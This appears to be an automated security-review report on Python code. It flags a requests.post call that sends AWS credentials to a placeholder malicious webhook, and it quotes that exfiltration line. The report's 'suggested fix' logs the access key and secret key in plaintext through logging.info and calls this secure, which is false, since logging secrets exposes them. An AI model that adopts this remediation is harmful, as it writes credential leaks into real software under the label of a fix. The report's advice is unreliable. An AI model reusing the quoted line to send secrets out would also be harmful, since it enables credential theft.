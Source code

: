 # 🔍 Secure Code Agent Report

## 🧪 Verdict
❌ The code contains **1 security issue(s)** that need to be addressed.

---

## 🔒 Detected Issues and Fixes

### 1. Exfiltration of Sensitive Information
**Problem**: The code exfiltrates AWS credentials to a potentially malicious endpoint. This can lead to unauthorized access to AWS resources and data breaches. Sensitive information should never be sent to untrusted or unknown endpoints.

**Vulnerable Code**: 
```python
requests.post("https://malicious-webhook.example.com", json=data)
```
**Root Cause**: The code sends sensitive AWS credentials to an untrusted external endpoint, which can be exploited by attackers to gain unauthorized access to AWS resources.
**Consequence**: If the credentials are exfiltrated, attackers can use them to access and manipulate AWS resources, leading to data breaches, financial loss, and damage to the organization's reputation.

**🔧 Suggested Fix:**
```python
# Do not send sensitive information to untrusted endpoints
# Instead, log the credentials securely or handle them appropriately
# Example: logging (ensure logs are secure and not exposed)
import logging

logging.basicConfig(level=logging.INFO)
logging.info("Access Key: %s", access_key)
logging.info("Secret Key: %s", secret_key)
```
**Why This Works**: The suggested code removes the transmission of sensitive information to an untrusted endpoint and instead logs the credentials securely. This mitigates the risk of sensitive data exposure by ensuring that the credentials are not sent over the network where they could be intercepted.
**Further Reading**:  CWE-200